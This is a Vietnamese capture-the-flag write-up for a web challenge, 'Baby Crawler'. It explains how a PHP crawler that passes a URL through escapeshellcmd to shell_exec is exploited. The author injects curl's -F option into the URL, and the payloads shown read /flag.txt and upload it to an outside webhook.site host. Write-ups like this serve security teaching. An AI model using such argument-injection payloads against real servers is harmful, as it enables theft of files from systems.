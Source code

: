 ```yaml
---
title: Write-Up Baby Crawler
date: 2023-09-17 12:34:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

Công cụ crawl bài viết từ các trang báo

## Tổng quan

- Để giải được challenge này, ta cần vận dụng kiến thức về Command injection và khả năng đọc code PHP cũng như cách dùng curl, nếu bạn không có thì cũng chả sao :D tra google cách dùng như mình là được
- dùng phương pháp hướng ngoại khi hướng nội không giải quyết được gì =)))
- công cụ: Burpsuite, webhook

## Phân tích bài

- vào website, ta thấy được rằng đây là 1 trang web dùng để curl dữ liệu

<img src="/assets/writeup/cookie/Baby Crawler/0.png">
- đầu tiên ta thử test 1 số chức năng là crawl cũng như check view-source.

<img src="/assets/writeup/cookie/Baby Crawler/0.png">

- phát hiện có biến /?debug , thử truy cập để xem có gì hấp dẫn

<img src="/assets/writeup/cookie/Baby Crawler/0.png">

- ta tìm được mã nguồn của bài, có vẻ đây là phần miêu tả chức năng crawl của challenge này.

<img src="/assets/writeup/cookie/Baby Crawler/0.png">

- đọc mã nguồn, ta dễ dàng nhận biết được rằng biến `$url` trong đoạn code sau chính là 1 **untrusted data,** kèm theo đó `$result` đang thực hiện một unsafe method là `shell_exec`, giống như toán học thôi!
    
    `unsafe method + untrusted data = vỡ mồm nhé các bạn :D`
    
- giờ công việc của ta là tập trung khai thác biến url đó, thử test 1 số payload của lỗi command injection như `; |` hay `&&` nhưng có vẻ nohope lắm :D, tất cả là tại thằng `escapeshellcmd($url)` đã filter `&#;` `*?~<>^()[]{}$\ , \x0A và \xFF`.
- Vậy giờ sao?, chuyển sang làm hacker hướng ngoại, ta tận dụng luôn thằng curl để gửi request sang bên ngoài, ở đây mình sử dụng webhook để bắn nội dung của file sang server của mình :D, học trò CBJS là phải biết dùng webhook nha!

<img src="/assets/writeup/cookie/Baby Crawler/0.png">

- Test nhẹ thì thấy được rằng có thể gửi được dữ liệu ra ngoài, lúc này vấn đề ta cần phải xem xét đó chính là làm sao để gửi được file ra ngoài ?, lúc này tui dạo trên google thì phát hiện ra chức năng curl có cung cấp option -F cho phép gửi file.

<img src="/assets/writeup/cookie/Baby Crawler/1.png">

- sử dụng payload như sau:

`-F file=@/flag.txt https://webhook.site/95993bde-b91d-4ffc-9278-cb237fa8059e`

- tuy nhiên ta lại bị 1 lỗi như sau

<img src="/assets/writeup/cookie/Baby Crawler/2.png">

- kiểm tra mã nguồn thì ta thấy rằng

<img src="/assets/writeup/cookie/Baby Crawler/3.png">

- tra chat GPT thì chúng ta chỉ cần thêm 1 biến http vào đầu payload thì sẽ giải được thoai.

<img src="/assets/writeup/cookie/Baby Crawler/4.png">

`payload:  http://13.215.248.36:32172/ -F file=@/flag.txt webhookcuamay`

---

`example payload: http://13.215.248.36:32172/ -F file=@/flag.txt [https://webhook.site/95993bde-b91d-4ffc-9278-cb237fa8059e](https://webhook.site/95993bde-b91d-4ffc-9278-cb237fa8059e*)`

<img src="/assets/writeup/cookie/Baby Crawler/5.png">

<img src="/assets/writeup/cookie/Baby Crawler/6.png">

- **Vậy là hoàn thành challenges trên, cũng khá đơn giản phải ko nào =)))))))))))**
